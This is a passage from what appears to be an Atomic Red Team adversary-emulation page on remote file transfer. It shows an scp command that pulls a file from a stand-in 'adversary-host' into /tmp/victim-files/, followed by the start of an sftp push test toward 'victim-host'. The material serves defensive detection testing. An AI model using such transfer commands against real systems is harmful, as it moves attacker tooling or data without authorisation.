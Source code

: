 **Supported Platforms:** Freebsd, Linux, macOS


**auto_generated_guid:** b9d22b9a-9778-4426-abf0-568ea64e9c33





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_host | Remote host to copy from | string | adversary-host|
| local_path | Local path to receive scp | path | /tmp/victim-files/|
| remote_file | Path of file to copy | path | /tmp/adversary-scp|
| username | User account to authenticate on remote host | string | adversary|


#### Attack Commands: Run with `sh`! 


```sh
scp #{username}@#{remote_host}:#{remote_file} #{local_path}
```






<br/>
<br/>

## Atomic Test #5 - sftp remote file copy (push)
Utilize sftp to perform a remote file copy (push)

**Supported Platforms:** Freebsd, Linux, macOS


**auto_generated_guid:** f564c297-7978-4aa9-b37a-d90477feea4e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | Remote path to receive sftp | path | /tmp/victim-files/|
| local_file | Path of file to copy | path | /tmp/adversary-sftp|
| remote_host | Remote host to copy toward | string | victim-host|
| username | User account to authenticate on remote host | string | victim|


#### Attack Commands: Run with `sh`! 
